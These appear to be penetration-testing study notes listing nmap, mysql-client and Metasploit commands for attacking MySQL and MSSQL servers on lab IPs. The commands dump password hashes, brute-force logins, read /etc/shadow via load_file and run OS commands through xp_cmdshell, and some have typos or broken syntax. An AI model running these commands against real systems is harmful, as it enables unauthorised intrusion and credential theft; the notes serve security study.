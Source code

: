## MySQL

3306 common port for #mysql

## nmap
shows accounts with empty passwords

```bash
nmap --script=mysql-empty-password -p 3306 $IP

show db info with #nmap
nmap <ip address> --script=mysql-info'
```
find other users
```bash
script=mysql-users --script-args-"mysqluser='<username>', mysqlpass=''<password>'"
```
find db's
```bash
script=mysql-databases --script-args-"mysqluser='<username>', mysqlpass=''<password>'"
```
get hashes
```bash
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 <ip address>
```
get variables
```bash
nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.71.145.3
```
audit
```bash
nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/n selib/data/mysql-cis.audit'" -p 3306 192.71.145.3
```

## mysql
log in
```bash
mysql -h $IP -u $USER
```

some other commands
`show databases;
`use <database>;
`show tables;`
`select * from  table;'

to get file 
`select load_file("/etc/shadow")`

`exit` to quit

## metasploit
#metasploit #mysql 

get schema
`use auxiliary/scanner/mysql/mysql_schemadump 
`set RHOSTS 192.71.145.
`set USERNAME root
`set PASSWORD "" 
`exploit`

see writable dirs
`use auxiliary/scanner/mysql/mysql_writable_dirs 
`set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt 
`set RHOSTS 192.71.145.3 
`set VERBOSE false 
`set PASSWORD "" 
`exploit`

find sensitive files
`use auxiliary/scanner/mysql/mysql_file_enum 
`set RHOSTS 192.71.145.3 
`set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt 
`set PASSWORD "" 
`exploit`

hashdump
`use auxiliary/scanner/mysql/mysql_hashdump 
`set RHOSTS 192.71.145.3 
`set USERNAME root 
`set PASSWORD "" exploit`

brute force login
`use auxiliary/musql/mysql_login`

sql enum
`use auxiliary/scanner/mysql/mysql_file_enum
`set RHOSTS 192.49.51.3
`set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
`set PASSWORD ""
`exploit`

> note tools under admin need elevated or root privs to run

execute sql commands
`use auxiliary/admin/mysql/mysql_sql`


## MSSQL 
get info on ms sql server
`nmap --script ms-sql-info -p 1433 <ip address>`

detail info on server - NetBIOS, DNS, and OS build version
`nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <ip address`

#nmap script to brute force logins
`nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-p asswords.txt <ip address>`

try to find users with no passwords
`nmap -p 1433 --script ms-sql-empty-password <ip address`

hashes of users
`nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria <ip address>`

run cmd commands, below for ip info
`nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" <ip address>`

### metaspolit

Identifying valid MSSQL users and their passwords
`use auxiliary/scanner/mssql/mssql_login 
`set RHOSTS 10.0.20.101 
`set USER_FILE /root/Desktop/wordlist/common_users.txt 
`set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt'

enumerate
`use auxiliary/admin/mssql/mssql_enum 
`set RHOSTS <ip address> 
`exploit`

Use cmd commands
`use auxiliary/admin/mssql/mssql_exec 
`set RHOSTS 10.0.20.101 
`set CMD whoami 
`exploit`

enum domain accounts
`use auxiliary/admin/mssql/mssql_enum_domain_accounts 
`set RHOSTS 10.0.20.101 
`exploit`

